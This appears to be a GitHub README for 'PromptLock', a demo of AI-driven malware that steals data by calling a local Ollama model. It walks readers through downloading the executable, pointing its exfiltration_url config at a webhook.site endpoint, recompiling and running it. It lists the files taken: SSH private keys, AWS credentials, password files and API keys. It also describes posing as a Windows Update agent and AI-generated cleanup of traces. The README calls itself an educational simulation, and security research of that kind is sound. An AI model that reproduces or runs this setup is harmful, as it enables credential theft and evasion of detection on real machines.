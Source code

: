 # Data Exfiltration Demo

This demo shows how AI-powered malware can extract sensitive data from a victim's machine without any obvious ransomware behavior.

## How to Run the Demo

1. **Download the malware** from the website: https://promptlock-ransomware-demo.vercel.app
2. **Get a webhook URL** (see below)
3. **Update the malware config** (see below)
4. **Run the executable** and monitor the exfiltration

## How to See the Exfiltrated Data

### Step 1: Get Your Webhook URL
1. Go to: **https://webhook.site**
2. You'll automatically get a unique URL like: `https://webhook.site/ab12cd34-ef56-gh78-...`
3. **Keep this page open** - this is where you'll see the stolen data appear!

### Step 2: Update the Malware (Optional)
The malware is currently configured to send data to a demo webhook. To see the data yourself:

1. Edit `promptlock_executable.go` 
2. Update the `exfiltration_url` in the config:
```go
"exfiltration_url": "https://webhook.site/YOUR-UNIQUE-ID-HERE",
```
3. Recompile: `go build -o promptlock promptlock_executable.go`

### Step 3: Run and Monitor
1. Run the malware executable
2. **Watch the stolen data appear in real-time on webhook.site!** 🎯

The webhook will show:
- Complete JSON payload with all stolen files
- HTTP headers (including the disguised `Windows-Update-Agent` user agent)  
- Timestamp of the exfiltration
- All sensitive data that was "stolen"

### Alternative: Network Monitoring
```bash
# Monitor exfiltration traffic
tcpdump -i any host webhook.site

# Monitor AI traffic  
netstat -an | grep 11434
```

## What Gets Exfiltrated

The malware extracts:
- SSH private keys (`~/.ssh/id_rsa`)
- AWS credentials (`~/.aws/credentials`) 
- Password files (`~/Documents/passwords.txt`)
- API keys (`~/.config/api_keys.json`)
- Financial data (`~/Desktop/financial_data.xlsx`)

## Demo Flow

1. **File Analysis**: AI generates scripts to scan for sensitive files
2. **Data Extraction**: AI creates code to copy sensitive data 
3. **Data Upload**: Malware disguises itself as "Windows Update Agent" and sends data to external server
4. **Cleanup**: AI generates code to remove all traces

The malware sends actual prompts to a local AI model (Ollama) while simultaneously exfiltrating realistic sensitive data to the external webhook server.

## Network Monitoring

You can also monitor the network traffic:
```bash
# Monitor AI traffic
netstat -an | grep 11434

# Monitor exfiltration traffic  
tcpdump -i any host webhook.site
```

## Safety Notes

- This is a **simulation** for educational purposes
- No real data is stolen
- No actual encryption occurs
- All "sensitive data" is fake/demo content
- The AI doesn't generate harmful content - it just receives prompts for logging 